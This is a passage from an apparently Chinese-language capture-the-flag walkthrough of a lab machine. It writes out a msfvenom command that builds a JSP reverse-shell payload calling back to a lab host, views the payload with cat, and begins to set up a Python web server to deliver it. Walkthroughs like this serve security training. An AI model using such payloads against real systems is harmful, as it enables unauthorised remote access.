 你可以在这里了解更多关于 msfvenom [的信息。](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

![Screenshot-2020-02-17-at-22.45.53](img/914791044bc5266d6825b7ec0ce2f189.png)

我使用以下命令来创建有效负载:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f raw > arcticshell.jsp
```

****-** p **:**** 有效载荷使用

****-** f **:**** 输出格式

**LHOST**:**本地主机**

**LPORT**:**本地端口**

我把这个漏洞保存为**arcticshell.jsp**。我可以使用以下命令查看有效负载的内容:

```
cat arcticshell.jsp
```

![Screenshot-2020-02-17-at-22.45.39](img/91129b6a127924816c63e1c8809fa285.png)

让我们启动一个 Python 服务器来提供来自 Kali 的文件。我将使用**简单 HTTPServer** 。Python 附带的 SimpleHTTPServer 模块是一个简单的 HTTP 服务器，它提供标准的 GET 和 HEAD 请求处理程序。你可以在这里了解更多关于那个[的信息。](https://docs.python.org/2/library/simplehttpserver.html)

我使用以下命令创建一个简单的服务器:
